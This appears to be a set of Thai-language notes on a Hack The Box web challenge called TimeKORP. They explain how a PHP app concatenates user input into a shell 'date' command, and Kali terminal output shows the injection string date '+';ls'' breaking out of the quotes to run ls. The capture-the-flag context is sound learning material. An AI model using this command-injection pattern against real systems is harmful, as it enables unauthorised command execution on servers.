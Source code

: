 



![alt text](image-2.png)

![alt text](image-3.png)

ในโค้ด PHP นี้ ส่วน `.$format.` ทำงานเป็น **string concatenation** (การต่อสตริง) 



```php
$this->command = "date '+" . $format . "' 2>&1";
```

**การทำงาน:**
- `.` ใน PHP ใช้สำหรับต่อสตริง (concatenation operator)
- `"date '+"` - สตริงแรก
- `$format` - ตัวแปรที่ส่งเข้ามา
- `"' 2>&1"` - สตริงสุดท้าย

**ตัวอย่างการทำงาน:**
ถ้า `$format = "%H:%M:%S"` 

ผลลัพธ์จะเป็น:
```bash
date '+%H:%M:%S' 2>&1
```

**ส่วน `2>&1` คือ:**
- `2>` - redirect stderr (error output)
- `&1` - ไปที่ stdout (standard output)
- ทำให้ error messages แสดงร่วมกับ output ปกติ



```
┌──(kali㉿DESKTOP-KQAT41L)-[/mnt/…/hackthebox/Challenges/Web/TimeKORP]
└─$ date '+"%H:%M:%S"'
"22:48:18"

┌──(kali㉿DESKTOP-KQAT41L)-[/mnt/…/hackthebox/Challenges/Web/TimeKORP]
└─$ date '+%H:%M:%S'
22:48:24

┌──(kali㉿DESKTOP-KQAT41L)-[/mnt/…/hackthebox/Challenges/Web/TimeKORP]
└─$ date '+';ls''

image-1.png  image-2.png  image-3.png  image.png  README.md
```

![alt text](image.png)


![alt text](image-1.png)